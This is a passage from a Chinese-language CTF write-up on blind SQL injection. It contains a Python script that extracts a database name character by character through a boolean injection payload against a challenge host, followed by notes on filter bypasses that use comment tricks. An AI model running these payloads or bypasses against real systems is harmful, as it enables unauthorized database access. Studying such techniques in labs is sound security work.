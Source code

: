 ```cobol
```

所以我们开始写python代码

```cobol
import requests
import string,hashlib
import time
url = 'http://114.67.175.224:13436/'
string1 = string.digits + (string.ascii_lowercase)
password = ''
for i in range(1,8):
    for j in range(8,0,-1):
        for k in range(48, 128):
                payload = """a'or(ord(substr((reverse(substr((database())from({0}))))from({1})))<>{2})#""".format(i, j, k)
                data = {
                    'username':payload,
                    'password':'abcd'
                }
                try:
                    res = requests.post(url, data=data, timeout=5)
                except:
                    time.sleep(2)
                    res = requests.post(url, data=data, timeout=5)
                if 'username does not exist' in res.text:
                    password += chr(k)
                    print(password)
                    break
                res.close()
```

获取了数据库名称  blindsql

但是我们继续进行的时候就发现了 无法继续

因为过滤了 information where 等

## 下面存在基本绕过方式

### 注释符绕过

这里的原理是 注释符后的会被执行

#### /**/绕过

```cobol
select * from users /**/ where id = 1 
```



#### #绕过

```cobol
select * from users # where id = 1 
```
